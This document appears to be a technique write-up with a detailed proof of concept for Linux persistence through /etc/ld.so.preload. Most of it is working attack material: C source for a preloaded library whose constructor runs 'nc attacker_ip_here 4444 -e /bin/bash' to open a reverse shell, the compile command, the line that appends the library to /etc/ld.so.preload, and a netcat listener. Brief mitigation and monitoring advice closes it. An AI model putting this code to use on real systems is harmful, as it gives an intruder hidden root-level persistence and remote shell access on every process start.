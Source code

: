 # Library Injection via ld.so.preload File 
A technique that uses /etc/ld.so.preload to inject custom libraries for code execution and persistence
### Description
This technique exploits the /etc/ld.so.preload file on Linux systems to achieve system-wide persistence by injecting a shared library that loads with every dynamically linked process. By adding a custom library path to /etc/ld.so.preload, attackers can execute arbitrary code whenever any new process is started. This technique leverages the dynamic linker (ld.so) to preload a specified library before standard libraries, making it effective for both privilege escalation and stealth operations.

When an application starts, the dynamic linker checks /etc/ld.so.preload and loads any libraries listed there, enabling custom code to run with the privileges of the calling process. Because /etc/ld.so.preload applies system-wide and requires root permissions to modify, it is often used by attackers with escalated privileges to maintain control over a compromised system. This can be leveraged to execute logging, monitoring, or malicious activities silently across reboots and user sessions.

## Detailed PoC (Proof of Concept)
Let's walk through the detailed steps of exploiting this technique. I'll break it down into phases: preparation, library creation, injection into /etc/ld.so.preload, and execution.

### Step 1: Understanding the Exploit
Objective: Gain persistence on a Linux system by injecting a malicious shared library through the /etc/ld.so.preload mechanism.
Mechanism: The dynamic linker (ld.so) checks the /etc/ld.so.preload file on system startup and loads any libraries listed there before loading the standard libraries. If an attacker can modify this file, they can insert a malicious library that runs arbitrary code when any process starts.
Step 2: Creating a Malicious Shared Library
First, you need to create a custom shared library that will be injected when a process starts. This library can contain malicious code, such as a reverse shell, a keylogger, or other persistent malware.

### Step 2: Creating a Malicious Shared Library
First, you need to create a custom shared library that will be injected when a process starts. This library can contain malicious code, such as a reverse shell, a keylogger, or other persistent malware.
Code for a Malicious Shared Library (example: reverse shell):

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void _init() {
    // The reverse shell payload: connects to an attacker-controlled IP and port
    const char *ip = "attacker_ip_here";  // Replace with attacker's IP
    const int port = 4444;                // Replace with desired port

    char command[128];
    snprintf(command, sizeof(command), "nc %s %d -e /bin/bash", ip, port);

    // Execute the reverse shell
    system(command);
}
Steps to compile the malicious shared library:

Save the above code into a file called reverse_shell.c.
Compile it into a shared library:
gcc -shared -fPIC -o reverse_shell.so reverse_shell.c
This creates the reverse_shell.so shared library, which will execute a reverse shell to the attacker's IP and port when any process is started.

### Step 3: Modifying /etc/ld.so.preload
Once the malicious shared library is compiled, the next step is to modify the /etc/ld.so.preload file to ensure that the malicious library is loaded system-wide whenever a process starts.

1. Check if /etc/ld.so.preload exists:

If the file already exists, you'll append your library path to it. If it doesn't exist, you’ll need to create it.

2. Gain root access:

Since modifying /etc/ld.so.preload requires root privileges, you’ll need to escalate privileges to root if not already done. This could be through an existing vulnerability, misconfiguration, or a privilege escalation exploit.

3. Modify /etc/ld.so.preload:

Assuming you've gained root access, you can modify /etc/ld.so.preload by appending the path of the malicious shared library:

echo "/path/to/reverse_shell.so" >> /etc/ld.so.preload
Make sure to replace /path/to/reverse_shell.so with the actual path to your malicious shared library.

### Step 4: Test the Exploit
At this point, the malicious library is set to be loaded every time any dynamically linked process starts. To test the exploit, simply start a new process. For example, try running:

ls
This will run the ls command, but because of the /etc/ld.so.preload file, the reverse shell library will be loaded first, and it will attempt to connect to the attacker's machine.

### Step 5: Set up Listener on Attacker's Machine
To receive the reverse shell, you need to set up a listener on the attacker's machine using Netcat (nc). On your attacker's machine:

nc -lvp 4444
Make sure that port 4444 (or whatever port you specified) is open and listening for connections.

### Step 6: Persistent Execution
Since /etc/ld.so.preload is applied system-wide, this technique will survive reboots and user logins as long as the malicious library remains in the specified path and /etc/ld.so.preload is not modified. This gives the attacker full persistence on the system.

### Step 7: Cleanup and Mitigation
To remove the malicious payload, you would simply need to:

Remove the entry from /etc/ld.so.preload:

sed -i '/reverse_shell.so/d' /etc/ld.so.preload
Delete the malicious shared library:

rm /path/to/reverse_shell.so
Restart the system or relaunch processes to ensure the payload is no longer injected.

# Additional Considerations and Mitigation
### Security Measures:

Restrict write access to /etc/ld.so.preload and other critical system files.
Use tools like SELinux, AppArmor, or other mandatory access control (MAC) systems to limit the impact of privilege escalation attacks.
Ensure that only trusted users can modify the system's library paths and execute dynamic binaries.
Regularly audit the /etc/ld.so.preload file to ensure there are no unauthorized entries.
Monitoring:

Set up monitoring for system changes to /etc/ld.so.preload to detect tampering.
Monitor network activity, particularly outgoing connections to detect suspicious reverse shell connections.

